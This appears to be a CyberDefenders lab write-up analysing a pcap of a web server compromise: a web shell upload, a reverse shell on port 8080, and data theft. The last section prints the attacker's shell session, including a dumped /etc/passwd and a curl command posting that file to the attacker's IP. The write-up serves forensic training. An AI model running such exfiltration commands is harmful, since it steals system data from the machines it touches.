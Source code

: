 ```yaml
---
title: WebStrike
date: 2024-09-04 00:00:00 -500
categories: [DFIR, Network Forensics]
tags: [CyberDefenders]
---
```


# Scenario:

An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap.


# Tools:

- Wireshark


- Q1: Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

First, let's figure out the IP address of the attacker: `Statistics > Conversations`

![](/assets/img/Pasted image 20240725130223.png)

```c
- Attacker: 117.11.88.124
- Victim: 24.49.63.79
```

- Now, checking the `Endpoints` information:

![](/assets/img/Pasted image 20240725130323.png)

	- Answer should be in here but I dont have maxmind db downloaded!


-> Answer: 
```c
City: Tianjin, Country: China, AS Number: 4837, AS Organization: CHINA UNICOM China169 Backbone
```


- Q2: Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?

Wireshark query:
```c
ip.addr == 117.11.88.124 && http.user_agent
```

![](/assets/img/Pasted image 20240725130938.png)

-> Answer: User-Agent:
```c
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```



- Q3: We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?

From here:

![](/assets/img/Pasted image 20240725131243.png)

It mentions that the uploaded file is `image.php`:

![](/assets/img/Pasted image 20240725131157.png)

	- Not sure if this was successfully uploaded as it says "Invalid file format".


Diving into `/admin/uploads`:

![](/assets/img/Pasted image 20240725131432.png)

	- Doesn't exist.


Found this interesting upload:

![](/assets/img/Pasted image 20240725131729.png)


Digging into this packet by following its TCP or HTTP stream:

![](/assets/img/Pasted image 20240725132020.png)

	- No response. I guess it was successfully uploaded?

-> Answer: `image.jpg.php`


- Q4: Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?

-> Answer: `/reviews/uploads/`


- Q5: Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

After the upload of the malicious web shell:

![](/assets/img/Pasted image 20240725132726.png)

	- We can see that the victim's machine is connecting to the attacker's machine at port 8080.



-> Answer: `8080`


- Q6: Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

Attacker's action during the webshell compromise:
```c
/bin/sh: 0: can't access tty; job control turned off

$ whoami

www-data

$ uname -a

Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov 2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

$ pwd

/var/www/html/reviews/uploads

$ ls /home

ubuntu

$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin

systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin

messagebus:x:102:105::/nonexistent:/usr/sbin/nologin

systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin

syslog:x:104:111::/home/syslog:/usr/sbin/nologin

_apt:x:105:65534::/nonexistent:/usr/sbin/nologin

tss:x:106:113:TPM software stack,,,:/var/lib/tpm:/bin/false

uuidd:x:107:116::/run/uuidd:/usr/sbin/nologin

systemd-oom:x:108:117:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin

tcpdump:x:109:118::/nonexistent:/usr/sbin/nologin

avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin

usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin

kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin

avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin

cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin

rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin

whoopsie:x:117:124::/nonexistent:/bin/false

sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin

speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false

fwupd-refresh:x:120:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin

nm-openvpn:x:121:127:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin

saned:x:122:129::/var/lib/saned:/usr/sbin/nologin

colord:x:123:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin

geoclue:x:124:131::/var/lib/geoclue:/usr/sbin/nologin

pulse:x:125:132:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin

gnome-initial-setup:x:126:65534::/run/gnome-initial-setup/:/bin/false

hplip:x:127:7:HPLIP system user,,,:/run/hplip:/bin/false

gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false

ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash

$ curl -X POST -d /etc/passwd http://117.11.88.124:443/

% Total % Received % Xferd Average Speed Time Time Time Current

Dload Upload Total Spent Left Speed

  

0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0

100 368 100 357 100 11 56774 17[393 bytes missing in capture file].$
```

-> Answer: `/etc/passwd`




